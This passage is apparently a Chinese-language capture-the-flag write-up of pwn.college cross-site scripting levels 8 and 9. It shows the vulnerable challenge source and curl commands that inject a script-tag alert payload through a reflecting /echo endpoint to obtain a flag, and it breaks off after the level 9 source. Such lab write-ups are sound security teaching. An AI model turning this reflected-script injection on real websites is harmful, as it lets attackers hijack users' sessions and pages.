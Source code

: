 ## level8 Exploit a cross site scripting vulnerability
终于来到了激动人心的跨站脚本，还是先看源码
```
def level8():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```
如果将 url 参数设置为 javascript:alert(1)，那么它将弹出一个警报框，并返回标志值 flag。
```
hacker@web-security-level-8:~$ curl "http://challenge.localhost/visit?url=<script>alert(1)</script>"
Invalid `url`, hostname should be `challenge.localhost`
hacker@web-security-level-8:~$ curl "http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=<script>alert(1)</script>"
pwn.college{4g4Hj421ueC3NuXZRLIM6QQnz_i.dRTOzMDL2QjMyMzW}
hacker@web-security-level-8:~$
```

## level9 Exploit a cross site scripting vulnerability with more complicated context
还是先看一下源代码
```
def level9():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(f"<textarea>{echo}</textarea>")

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
```